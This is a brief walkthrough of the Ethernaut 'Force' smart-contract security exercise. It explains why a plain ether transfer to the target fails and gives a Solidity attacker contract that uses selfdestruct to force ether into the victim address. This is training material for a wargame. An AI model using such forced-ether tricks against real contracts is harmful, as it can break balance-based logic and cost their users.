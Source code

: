 # Level 7: [Force](https://ethernaut.openzeppelin.com/level/0x46f79002907a025599f355A04A512A6Fd45E671B)

## Level objectives:
1. Increase the balance of the contract to greater than zero.

## Analysis (lol)
- Contract doesn't have a fallback method or a receive() function to accept ether. That's why the
following tx fails.
```sol
web3.eth.sendTransaction({
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  to: "0xB1f65625833F4F4af6A0aE5bEE69C186A2704500",
  value: web3.utils.toWei("0.00001", "ether")
})
```
- But any contract can be **forced** to accept ether when the sender contract self-destructs.

## Steps:
- Attacker contract:
```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

contract AttackForce {
    function attack(address _victim) public {
        selfdestruct(payable(_victim));
    }

    receive() external payable {}
}
```
- After deployment send some ether to this, and call `attack` with the address of victim.

